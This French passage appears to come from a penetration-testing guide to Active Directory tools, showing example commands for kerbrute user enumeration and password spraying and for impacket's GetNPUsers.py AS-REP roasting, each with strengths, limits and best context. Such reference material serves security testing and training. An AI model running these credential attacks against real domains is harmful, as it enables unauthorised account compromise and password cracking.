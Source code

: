 **Atouts** : Fonctionnalités avancées d'énumération, s'exécute en mémoire, très flexible.

**Limites** : Nécessite PowerShell, souvent bloqué par les solutions EDR modernes.

**Meilleur contexte** : Énumération approfondie d'Active Directory lorsque l'exécution de PowerShell est possible.

### Kerberos

Le protocole d'authentification Kerberos, utilisé dans les environnements Active Directory, présente plusieurs vecteurs d'énumération et d'attaque.

#### kerbrute

**But** : Outil de brute force et d'énumération pour Kerberos.

**Exemple de commande** :
```bash
# Validation d'utilisateurs (user enumeration)
kerbrute userenum -d exemple.com --dc 10.10.10.10 utilisateurs.txt

# Password spraying
kerbrute passwordspray -d exemple.com --dc 10.10.10.10 utilisateurs_valides.txt Printemps2023!
```

**Atouts** : Rapide, génère peu d'événements de sécurité, validation d'utilisateurs sans authentification complète.

**Limites** : Fonctionnalités limitées à l'énumération et au brute force.

**Meilleur contexte** : Validation discrète d'utilisateurs dans un domaine Active Directory, password spraying initial.

#### GetNPUsers.py (impacket)

**But** : Extraction des TGT pour les utilisateurs sans pré-authentification Kerberos (AS-REP Roasting).

**Exemple de commande** :
```bash
# Ciblage d'utilisateurs spécifiques
GetNPUsers.py exemple.com/ -usersfile utilisateurs.txt -format hashcat -outputfile hashes.txt

# Ciblage de tous les utilisateurs avec identifiants
GetNPUsers.py exemple.com/utilisateur:mot_de_passe -request -format hashcat -outputfile hashes.txt
```

**Atouts** : Exploitation directe d'une mauvaise configuration Kerberos, obtention de hachages crackables hors ligne.

**Limites** : Nécessite des utilisateurs configurés sans pré-authentification Kerberos (configuration rare).

**Meilleur contexte** : Exploitation de configurations Kerberos dangereuses après identification d'utilisateurs valides.

#### GetUserSPNs.py (impacket)
